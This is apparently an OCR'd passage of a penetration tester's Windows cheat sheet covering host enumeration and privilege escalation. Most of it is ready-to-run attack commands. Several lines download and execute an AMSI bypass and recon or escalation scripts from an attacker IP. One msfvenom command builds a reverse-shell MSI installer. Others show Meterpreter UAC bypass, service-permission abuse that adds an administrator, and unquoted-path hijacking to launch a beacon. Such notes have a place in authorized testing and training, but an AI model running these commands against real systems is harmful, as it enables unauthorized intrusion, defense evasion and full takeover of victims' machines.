             dir /od c:\Users\administrator\Desktop & dir /od c:\Users\administrator\Documents & dir /od c:\Users\administrator\Downloads
        wmic process get processid,commandline
        

    //###Hostrecon.ps1:
        (new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX
        (new-object system.net.webclient).downloadstring('http://192.168.49.121/HostRecon.ps1') | IEX
        Invoke-HostRecon > Hrecon.txt
        Invoke-HostRecon -Portscan -TopPorts 100            //check firewall outbound; can edit script to scan my IP

    //###Seatbelt.exe:
        //can directly run Seatbelt.exe if no AV
        //More Stealthy:
            (new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX
            (new-object system.net.webclient).downloadstring('http://192.168.49.121/PowerSharpPack.ps1') | IEX
            PowerSharpPack -seatbelt -Command "-group=all" > seat.txt

    //###Check Event Logs:
        Get-EventLog -List
        Get-EventLog -LogName "NAME" | where {$_.Message -like '*CUSTOM*'} | select Message | format-table -wrap     


### Privilege Escalation

    //Privileges:
        whoami /all
        **SeImpersonatePrivilege/SeAssignPrimaryTokenPrivilege? (Network Service account, LocalService account, and default IIS account) - PrintSpoofer
            SeLoadDriverPrivilege privesc (https://0xdf.gitlab.io/2020/10/31/htb-fuse.html)

    //Meterpreter:
        getsystem
        use post/multi/recon/local_exploit_suggester
        #use exploit/windows/local/bypassuac_injection_winsxs   

    //###SharpUp:
        //transfer info.xml and payload.txt (SharpUp.cs)
        copy C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe test.exe
        test.exe info.xml results.xml  

    //###PowerUp.ps1:
        (new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath Pup.txt
        ex. if AlwaysInstallElevated is set:
                cmd.exe /c 'systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"'
                msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
                IWR -Uri http://172.16.1.30/evil.msi -OutFile evil.msi
    //Service Hijack Example:
            # Exploit vulnerable service permissions (does not require touching disk)
                Invoke-ServiceAbuse -Name "VulnerableSvc" -Command "net localgroup Administrators DOMAIN\user /add"
            # Exploit an unquoted service path vulnerability to spawn a beacon
                Write-ServiceBinary -Name 'VulnerableSvc' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\VulnerableSvc'
            # Restart the service to exploit (not always required)
                net.exe stop VulnerableSvc && net.exe start VulnerableSvc
